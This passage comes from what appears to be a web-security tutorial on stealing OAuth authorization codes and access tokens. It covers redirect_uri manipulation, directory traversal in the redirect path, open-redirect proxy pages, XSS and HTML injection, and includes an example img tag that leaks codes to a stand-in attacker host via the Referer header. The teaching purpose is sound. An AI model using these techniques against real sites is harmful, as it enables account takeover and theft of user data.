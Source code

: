 It is important to note that you shouldn't limit your testing to just probing the `redirect_uri` parameter in isolation. In the wild, you will often need to experiment with different combinations of changes to several parameters. Sometimes changing one parameter can affect the validation of others. For example, changing the `response_mode` from `query` to `fragment` can sometimes completely alter the parsing of the `redirect_uri`, allowing you to submit URIs that would otherwise be blocked. Likewise, if you notice that the `web_message` response mode is supported, this often allows a wider range of subdomains in the `redirect_uri`.   
  
#### Stealing codes and access tokens via a proxy page  
  
Against more robust targets, you might find that no matter what you try, you are unable to successfully submit an external domain as the `redirect_uri`. However, that doesn't mean it's time to give up.   
By this stage, you should have a relatively good understanding of which parts of the URI you can tamper with. The key now is to use this knowledge to try and access a wider attack surface within the client application itself. In other words, try to work out whether you can change the `redirect_uri` parameter to point to any other pages on a whitelisted domain.   
Try to find ways that you can successfully access different subdomains or paths. For example, the default URI will often be on an OAuth-specific path, such as `/oauth/callback`, which is unlikely to have any interesting subdirectories. However, you may be able to use directory traversal tricks to supply any arbitrary path on the domain. Something like this:   
`https://client-app.com/oauth/callback/../../example/path`  
May be interpreted on the back-end as:   
`https://client-app.com/example/path`  
Once you identify which other pages you are able to set as the redirect URI, you should audit them for additional vulnerabilities that you can potentially use to leak the code or token. For the [authorization code flow](/web-security/oauth/grant-types#authorization-code-grant-type), you need to find a vulnerability that gives you access to the query parameters, whereas for the [implicit grant type](/web-security/oauth/grant-types#implicit-grant-type), you need to extract the URL fragment.   
One of the most useful vulnerabilities for this purpose is an open redirect. You can use this as a proxy to forward victims, along with their code or token, to an attacker-controlled domain where you can host any malicious script you like.   
Note that for the implicit grant type, stealing an access token doesn't just enable you to log in to the victim's account on the client application. As the entire implicit flow takes place via the browser, you can also use the token to make your own API calls to the OAuth service's resource server. This may enable you to fetch sensitive user data that you cannot normally access from the client application's web UI.   
LAB  
PRACTITIONER [Stealing OAuth access tokens via an open redirect](/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect)  
In addition to open redirects, you should look for any other vulnerabilities that allow you to extract the code or token and send it to an external domain. Some good examples include:   
  
1. **Dangerous JavaScript that handles query parameters and URL fragments**  
For example, insecure web messaging scripts can be great for this. In some scenarios, you may have to identify a longer gadget chain that allows you to pass the token through a series of scripts before eventually leaking it to your external domain. 
2. **XSS vulnerabilities**  
Although XSS attacks can have a huge impact on their own, there is typically a small time frame in which the attacker has access to the user's session before they close the tab or navigate away. As the `HTTPOnly` attribute is commonly used for session cookies, an attacker will often also be unable to access them directly using XSS. However, by stealing an OAuth code or token, the attacker can gain access to the user's account in their own browser. This gives them much more time to explore the user's data and perform harmful actions, significantly increasing the severity of the XSS vulnerability. 
3. **HTML injection vulnerabilities**  
In cases where you cannot inject JavaScript (for example, due to CSP constraints or strict filtering), you may still be able to use a simple HTML injection to steal authorization codes. If you can point the `redirect_uri` parameter to a page on which you can inject your own HTML content, you might be able to leak the code via the `Referer` header. For example, consider the following `img` element: `<img src="evil-user.net">`. When attempting to fetch this image, some browsers (such as Firefox) will send the full URL in the `Referer` header of the request, including the query string.   
LAB  
EXPERT [Stealing OAuth access tokens via a proxy page](/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)  
  